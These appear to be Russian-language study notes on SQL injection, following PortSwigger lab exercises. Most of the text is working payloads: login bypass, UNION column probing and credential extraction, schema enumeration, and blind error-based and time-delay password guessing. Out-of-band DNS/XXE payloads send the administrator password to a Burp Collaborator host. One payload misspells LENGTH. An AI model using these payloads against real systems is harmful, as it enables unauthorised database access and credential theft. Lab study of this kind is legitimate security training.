 [SQL Injection](https://portswigger.net/web-security/sql-injection)

[Cheat Sheet from PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet) ^896bf6

## Извлечение скрытых данных
Запрос принимает _category_:
`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`
Инъекция:
`' OR 1=1--`

## Нарушение логики приложения
Запрос принимает _username_ и _password_:
`SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'`
Инъекция:
`administrator'--`

## Извлечение данных из других таблиц БД
Запрос принимает _category_:
`SELECT name, description FROM products WHERE category = 'Gifts'`
Инъекция:
`' UNION SELECT username, password FROM users--`

**Определение количества столбцов для UNION**
С помощью _ORDER BY_:
`' ORDER BY 1--` 
`' ORDER BY 2--` 
`' ORDER BY 3--`
`etc.`

С помощью _UNION SELECT NULL_:
`' UNION SELECT NULL--` 
`' UNION SELECT NULL,NULL-- `
`' UNION SELECT NULL,NULL,NULL--`
`etc.`

Для Oracle:
`' UNION SELECT NULL FROM DUAL--`

**Поиск столбцов с полезным типом данных для SQL-инъекции UNION**
Поиск строкового столбца, 4 столбца:
`' UNION SELECT 'a',NULL,NULL--`
`' UNION SELECT NULL,'a',NULL--` 
`' UNION SELECT NULL,NULL,'a'--` 

**SQL-инъекция UNION**
Зная название таблицы, столбцов, а также  их нужное количество:
`' UNION SELECT username, password FROM users--`

**Извлечение нескольких значений в одном столбце**
Два столбца, только второй строковой:
`' UNION SELECT NULL,username||'~'||password FROM users--`
Операторы конкатенации в разных БД в [[#^896bf6|Cheat Sheet'е]]

## Изучение БД
Определение версии, например, для Oracle:
`SELECT * FROM v$version`
`' UNION SELECT null,banner from v$version--`

Список таблиц для большинства БД:
`SELECT * FROM information_schema.tables`

Пример для non-Oracle:
`' UNION SELECT NULL,NULL`
`' UNION SELECT table_schema,table_name FROM information_schema.tables--`
`' UNION SELECT NULL,column_name FROM information_schema.columns WHERE table_name='users_fekyvk'--`
`' UNION SELECT username_sowiok,password_rvcfaz FROM users_fekyvk--`

Пример для Oracle:
`' UNION SELECT NULL,NULL FROM DUAL--`
`' UNION SELECT NULL,table_name FROM all_tables--`
`' UNION SELECT NULL,column_name FROM all_tab_columns where table_name='USERS_DSDXRK'--`
`' UNION SELECT USERNAME_PCGUWT,PASSWORD_DDEJBN FROM USERS_DSDXRK--`

## Blind SQL-инъекции
##### Эксплуатация слепой SQL-инъекции путем запуска условного ответа
Пример для подбора пароля из [первой](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses) лабы по слепым инъекциям _(условный ответ, инъекция в куке)_
`' AND SUBSTRING((SELECT password FROM users WHERE username = 'administrator'), 1, 1) > 'm`

##### Вызов условных ответов путем запуска ошибок SQL
Пример для подбора пароля из [второй](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors) лабы по слепым инъекциям _(условная ошибка, инъекция в куке, Oracle)_
Проверка ошибки валидным запросом (ошибка)
`'||(SELECT '')||'`
Возможно, БД Oracle (siuu)
`'||(SELECT '' FROM dual)||'`
Проверяем существование таблицы _users_
`'||(SELECT '' FROM users WHERE ROWNUM = 1)||'`
Теперь проверяем conditional error
`'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'` (ошибка)
`'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'` (нет ошибки)
Проверим, существует ли имя пользователя _administrator_ (ошибка если есть)
`'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
Определяем длину пароля (ошибка если значение совпало)
`'||(SELECT CASE WHEN (LENTGH(password)=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
Подбираем пароль
`'||(SELECT CASE WHEN (SUBSTR(password,1,1)='a') THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`

##### Эксплуатация слепых SQL-инъекций путем инициирования временных задержек
Полезные нагрузки для разных БД в [[#^896bf6|Cheat Sheet'е]]

Пример для [четвертой](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval) лабы
Перебором разных пэйлоадов определяем БД (PostgreSQL)
`'%3Bpg_sleep(10)--`
Составляем валидный запрос
`'%3B+SELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(3)+ELSE+pg_sleep(0)+END--`
Проверяем существование пользователя
`'%3B+SELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(3)+ELSE+pg_sleep(0)+END+FROM+users--`
Определяем длину пароля
`'%3B+SELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(3)+ELSE+pg_sleep(0)+END+FROM+users--`
`'%3B+SELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)=20)+THEN+pg_sleep(3)+ELSE+pg_sleep(0)+END+FROM+users--`
Тут в Бурпе особо не автоматизировать, нужно запустить 20 раз интрудер с 1 потоком и ловить задержки
`'%3B+SELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)>'m')+THEN+pg_sleep(3)+ELSE+pg_sleep(0)+END+FROM+users--`

##### Эксплуатация слепых SQL-инъекций с помощью out-of-band (OAST) методов*
Полезные нагрузки для разных БД в [[#^896bf6|Cheat Sheet'е]]

Для out-of-band взаимодействия можно использовать различные сетевые протоколы, но обычно наиболее эффективным является DNS (служба доменных имен). Это связано с тем, что очень многие производственные сети позволяют свободно передавать DNS-запросы, поскольку они необходимы для нормальной работы производственных систем.
В Microsoft SQL Server для запуска DNS-запроса на определенный домен можно использовать: 
`'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--`

Приложение использует cookie-файл отслеживания для аналитики и выполняет SQL-запрос, содержащий значение переданного cookie. SQL-запрос выполняется асинхронно и не влияет на ответ приложения. Однако можно запустить внеполосное взаимодействие с внешним доменом. БД Oracle.

Например, можно объединить SQL-инъекцию с базовыми техниками XXE следующим образом (_уязвимость была устранена_):
`TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--`

Пример запроса для эксфильтрации данных:
`'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--`

Пример из второй лабы по out-of-band слепым инъекциям:
`'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'`
`x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.zuxdgr1aog6aoa2udnrdhvfu9lfj38.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--`

Лабы
[Blind SQL injection with out-of-band interaction](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band)

 [Blind SQL injection with out-of-band data exfiltration](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band-data-exfiltration)